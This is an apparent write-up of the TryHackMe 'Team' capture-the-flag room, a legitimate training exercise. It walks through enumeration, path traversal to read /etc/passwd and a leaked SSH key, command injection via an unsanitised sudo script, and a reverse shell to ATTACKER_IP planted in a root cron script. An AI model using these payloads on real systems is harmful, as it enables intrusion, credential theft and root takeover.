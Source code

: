 # Team Challenge Walkthrough
<br/>

## Intro
Welcome to the Team challenge, here is the link to the [room](https://tryhackme.com/room/teamcw) on TryHackMe.

This time we will be dealing with a commoon vulnerability for web apps that will grant us...

Whenever you feel ready press on "Start Machine" and connect via OpenVPN from your machine or use the AttackBox.

Let's begin!

<br/>
<br/>

## The challenge
Let's add the domain to the hosts file:
```bash
echo "MACHINE_IP team.thm" | sudo tee -a /etc/hosts
```

nmap scan:
```bash
nmap -sV -sC team.thm
```

We find 3 open ports:
```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's begin by visiting the HTTP webapp, in your browser navigate to:
```
http://team.thm
```

We can see a homepage of the team with a bunch of photos, all the buttons point at the homepage.
Looking at the page source code we find nothing of particular interest.

Let's check the `robots.txt` file, navigate to:
```
http://team.thm/robots.txt
```

We can see there is a single word `dale`, let's save it for now, we' ll may use it later.

Let's now do a directory scan:
```bash
gobuster dir -u http://team.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
```

```
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
```

Only `/images` is accessible, the other ones are forbidden, we do not have the right privileges.

This seems to be a dead end, lets try something else like scanning for subdomains:
```bash 
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://team.thm -H "Host: FUZZ.team.thm" 
```


This shows that the "dev" one exist, let's add this entry on the same line on the hosts file `dev.team.thm`.
The site is being build, if we click on the link we land on the URL:
```
http://dev.team.thm/script.php?page=teamshare.php
```

This looks interesting, with PHP calling for a  page we might be able to find a vulnerablity like directory traversal.
Let's try:
```
http://dev.team.thm/script.php?page=../../../../../etc/hosts
```

And it works we get the output of the target hosts file.

Now let's grub something useful like the `/etc/passwd`, from it we can see there is a user called dale, one gyles and the root.

Now we can use it to get the first flag:
```
http://dev.team.thm/script.php?page=../../../../../home/dale/user.txt
```
--> REDACTED

I have also checked the .ssh directory in the user home for the ssh keys but no matches, let's try fuzzing files and see if we get something interesting:
```bash
gobuster dir -u http://dev.team.thm/script.php\?page\=../../../../../ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --exclude-length 1 
```

Stil convinced that my way in was via SSH i have got a march on this file: `/etc/ssh/sshd_config`, let's check what it contains:
- Some general config + a key
```
Dale id_rsa #-----BEGIN OPENSSH PRIVATE KEY----- #b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn 
--REDACTED TOO_LARGE AND USELESS FOR THE WRITE UP --
#-----END OPENSSH PRIVATE KEY-----
```

Now we have Dale key, we need to fix how it is formatted (basically remove the new line `#` and make it a whole 1 line):


Then save it into a file called `id_rsa`, change permissions:
```bash
chmod 600 id_rsa
```

And now let's login:
```bash
ssh -i id_rsa dale@team.thm  
```

We have are now inside the machine as the user Dale.

<br/>

### Privilege Escalation
Let's check if we can run any command with sudo:
```bash
sudo -l
```

```
User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

We can run that script as sudo, view the file:
```bash
cat /home/gyles/admin_checks
```

```bash
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

Basically this script ask for the user name and timestamp and then create a backup of the `stats.txt` file.

Still loking around we can see in the `/home` directory the ftpuser, inside there is a `workshare` directory with a file called `New_site.txt`:
```
Dale
I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles 
```

(Not really useful now but cool to see it)

Let's go back to our script, it has 1 major fall, here `$error 2>/dev/null` we could supply some crafted input and it will execute it.
When prompted for the timestamp we can just input: `/bin/bash` this will open us a shell as gyles.

Now we can check the bash history file and see if there is any interesting clue:
```bash
cat .bash_history
```

One file looks like it wants our attentions:
```bash
cat /opt/admin_stuff/script.sh 
```

```bash

#!/bin/bash
#I have set a cronjob to run this script every minute

dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```

This script gets executed every minute, and even better other 2 scripts gets called and executed as well.

```bash
cat /usr/local/bin/main_backup.sh
```
```bash
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
```
```bash
ls -la /usr/local/bin/main_backup.sh
-rwxrwxr-x 1 root admin 65 Jan 17  2021 /usr/local/bin/main_backup.sh
```

and
```bash
cat /usr/local/sbin/dev_backup.sh
```
```bash
#!/bin/bash
cp -r /var/www/dev.team.thm/* /var/backups/www/dev/
```


The `main_backup.sh` is writable, we can paste inside the code for a reverse shell:
```bash
sh -i >& /dev/tcp/ATTACKER_IP/1234 0>&1
```

And on our machine set up a listener:
```bash
nc -lvnp 1234
```

The script will get executed as root so in about a minute we should get the root shell.

When the shell spawn, get the root flag:
```bash
cat root.txt
```
--> REDACTED
